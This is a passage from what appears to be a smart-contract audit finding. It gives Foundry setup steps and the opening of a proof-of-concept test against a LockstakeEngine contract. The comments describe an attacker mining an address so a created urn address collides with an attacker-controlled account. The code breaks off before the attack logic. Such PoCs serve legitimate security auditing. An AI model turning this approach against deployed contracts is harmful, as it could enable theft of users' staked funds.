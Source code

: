 ## Code Snippet
>PoC

1. Create `test/ALockstakeEngine.sol` in the root project directory.
<details><summary> test/ALockstakeEngine.sol</summary></details>

It is based on the `LockstakeEngine.t.sol` `setUp` function:
- Fixed imports
- Added `block.number` for caching RPC calls
- Added `chief` and `polling` contracts from mainnet
- Added the real `VoteDelegateFactory`

To see the diff, you can run `git diff`. Note: all other functions except `setUp` are removed from the file and the diff.

<details><summary>git diff --no-index  lockstake/test/LockstakeEngine.t.sol test/ALockstakeEngine.sol</summary></details>

2. Add the following `remappings.txt` to the root project directory.
```txt
dss-interfaces/=dss-flappers/lib/dss-test/lib/dss-interfaces/src/
dss-test/=dss-flappers/lib/dss-test/src/
forge-std/=dss-flappers/lib/dss-test/lib/forge-std/src/
@openzeppelin/contracts/=sdai/lib/openzeppelin-contracts-upgradeable/lib/openzeppelin-contracts/contracts/
@openzeppelin/contracts-upgradeable/=sdai/lib/openzeppelin-contracts-upgradeable/contracts/
solidity-stringutils=nst/lib/openzeppelin-foundry-upgrades/lib/solidity-stringutils/
lockstake:src/=lockstake/src/
vote-delegate:src/=vote-delegate/src/
sdai:src/=sdai/src/
```


3. Run `forge test  --match-path test/ALSEH5.sol -vvv` (PoCs for 2 LSUrns)
```solidity
// SPDX-License-Identifier: AGPL-3.0-or-later

pragma solidity ^0.8.21;

import "./ALockstakeEngine.sol";

contract VoteDelegateLike {
    mapping(address => uint256) public stake; 
}

interface ChiefLike {
    // function GOV() external view returns (GemLike);
    // function IOU() external view returns (GemLike);
    function lock(uint256) external;
    function free(uint256) external;
    function vote(address[] calldata) external returns (bytes32);
    function vote(bytes32) external;
    // mapping(address => uint256) public deposits;
    function deposits(address) external returns (uint);
}

contract ALSEH5 is ALockstakeEngineTest {
    // Just some address that the attacker wants to use, a regular EOA
    address attacker = makeAddr("attacker");
    // Address mined by the attacker to create LSUrn 
    // so that the LSUrn address will be equal to an EOA controlled by the attacker
    address minedUrnCreator = makeAddr("minedUrnCreator");

    address[] users = [
        makeAddr("user1"),
        makeAddr("user2"),
```